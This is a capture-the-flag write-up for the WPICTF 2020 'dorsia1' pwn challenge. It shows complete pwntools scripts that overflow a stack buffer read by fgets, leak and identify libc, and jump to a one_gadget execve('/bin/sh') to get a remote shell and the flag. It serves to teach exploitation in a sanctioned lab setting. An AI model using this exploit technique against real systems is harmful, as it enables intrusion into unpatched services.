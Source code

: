 # WPICTF 2020

## dorsia1

> 100
>
> [http://us-east-1.linodeobjects.com/wpictf-challenge-files/dorsia.webm](../dorsia.webm) The first card.
>
> `nc dorsia1.wpictf.xyz 31337 or 31338 or 31339`
>
> made by: awg
> 
> _Hint: Same libc as dorsia4, but you shouldn't need the file to solve._

Tags: _pwn_


### Analysis

#### Roll the film ([dorsia.webm](../dorsia.webm))

![](dorsia1.png)

Quite possibly one of the best movies scenes ever (your results may vary), augmented with _new pwn_.  And ..., there are two verbal hints in the clip: _stack smash_ and _fgets_.

What I most appreciate about this challenge is that this is a legit fuckup.  You could (and can) actually expect someone to mistype the `69` as `96`.

The hint: _Same libc as dorsia4, but you shouldn't need the file to solve_, was actually delivered later in the challenge as users keep asking for the libc version.  I do not fully agree with that.  For starters is this x86_64, x86, arm, or something else?

The `printf` leaks the location of `system` with an offset (`765772`), this can be used to both determine the version of libc as well as the architecture.

Assuming x86_64 (safe bet) _stack smash_ with 69 bytes + 8 bytes for the saved base pointer then an 8 byte address as the new return address.  That leaves 16 bytes left (15 really since `fgets` will only read 68 bytes (one less than size parameter)).  This is important, because it'll tell you what will not work: `pop rdi; ret`, pointer to `/bin/sh`, `system`.  Which is exactly what I tried first (habit, I prefer this over gadgets because it is portable).  That 96th byte will be a NULL (0x00), and unless the remote libc address space starts with `0x00` (and it does not), then this will not work.  Plan B: try a gadget.

However, there is a 2nd, easier solution, and the hint spells that out for you.  `765772`.  What is that number and what does it mean?  It pays to be curious.


### Exploit

#### Attack Plan

1. Leak libc address
2. Find libc version
3. Find a gadget
2. Get the flag


#### Leak libc address

```python
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

system = int(_,16) - 765772
print(hex(system))
```


#### Find libc version

```python
import os
stream = os.popen("libc-database/find system " + str(hex(system & 0xFFF)) + " | grep /glibc/ | sed 's/)//' | awk '{print $NF}'")
output = stream.read().strip()
stream.close()

libc = ELF('libc-database/db/' + output + '.so')
baselibc = system - libc.symbols['system']
print("libc:" + str(hex(baselibc)))
print('libc-database/db/' + output + '.so')
```

This code assumes you have the libc-database cloned locally, however there's an online version as well: [https://libc.blukat.me/](https://libc.blukat.me/) (tip from @ins0--thanks!).  Personally I prefer the local version, esp. if searching for gadgets or ROP chains, but it can also take about 30 minutes to download.  Options are good to have.

Running this will output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x783e16412440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x783e163c3000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
```

Now we have the libc version and binary.


#### Find a gadget

```
# one_gadget libc-database/db/libc6_2.27-3ubuntu1_amd64.so

0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

`0x4f322` looks the most promising.


#### Get the flag

```python
gadget = 0x4f322

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(baselibc + gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

Filling the rest of the stack with NULLs is just habit--it can help however with `one_gadget`.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
0x7386ccfc1440
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc:0x7386ccf72000
libc-database/db/libc6_2.27-3ubuntu1_amd64.so
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### Flag

```
WPI{FEED_ME_A_STRAY_CAT}
```


### Be curious

```python
#!/usr/bin/env python3

from pwn import *

p = remote('dorsia1.wpictf.xyz',31337)

_ = p.recvline().strip()

gadget = int(_,16)

payload  = 69 * b'A'
payload += 8 * b'B'
payload += p64(gadget)
payload += (96 - len(payload)) * p8(0)

p.sendline(payload)
p.interactive()
```

This basically just sends back `system+765722` as the return address in our _stack smash_.

Output:

```
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```


#### What is `system+765722`?

Let's find out:

```
# python3
Python 3.7.5 (default, Nov 20 2019, 09:21:52)
[GCC 9.2.1 20191008] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')
[*] '/pwd/datajerk/wpictf2020/dorsia1/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
>>> print(hex(libc.symbols['system'] + 765722))
0x10a35a
```

Looking at the `one_gadget` output above it looks pretty close to `0x10a38c`.



